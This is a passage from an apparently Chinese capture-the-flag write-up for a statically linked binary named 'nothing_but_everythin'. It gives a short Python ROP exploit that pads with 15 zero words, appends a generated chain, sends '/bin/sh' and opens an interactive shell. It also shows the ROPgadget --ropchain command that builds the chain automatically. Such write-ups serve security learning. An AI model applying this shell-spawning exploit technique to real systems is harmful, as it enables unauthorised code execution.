 > 其中`"/bin/sh\0"`可以利用第一次`read`读入

### exp

```python
# rop1
offset = 15
payload = p64(0x0)*offset
payload += ropchain()

sl('/bin/sh\0')
#debug()
sl(payload)

p.interactive()
```

### More

这题可以`ROPgadget`一把梭，刚开始远程打不了，以为是一把梭脚本有问题，后来群里说是题目的问题。。。。修好了之后又试了一下一把梭，可以打：

```bash
ROPgadget --binary ./nothing_but_everythin --ropchain
```

> 静态编译的程序中存在大量gadget，因此可以直接用ROPgadget生成rop链